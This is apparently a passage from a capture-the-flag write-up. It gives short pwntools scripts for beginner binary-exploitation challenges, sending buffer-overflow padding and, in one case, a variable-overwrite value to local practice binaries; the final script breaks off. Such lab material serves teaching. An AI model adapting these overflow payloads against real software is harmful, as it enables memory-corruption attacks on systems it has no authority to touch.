 ```python
io.interactive()
```
## precision (easy)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('./binary-exploitation-lose-variable-w')

def sl(s):
	io.sendline(s)

### code 
pl=b'b'*78
sl(pl)
### 
#
io.interactive()
```
## precision (hard)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-lose-variable')

def sl(s):
	io.sendline(s)

### code 
pl=b'b'*0x22
sl(pl)
### 
#
io.interactive()
```
## variable control (easy)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-var-control-w')

def sd(s):
	io.send(s)

### code 
pl=b'b'*124+p64(2063959224)
sd(pl)
### 
#
io.interactive()
```
## variable control (hard)
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
io=process('binary-exploitation-var-control')

def sd(s):
	io.send(s)

### code 
```
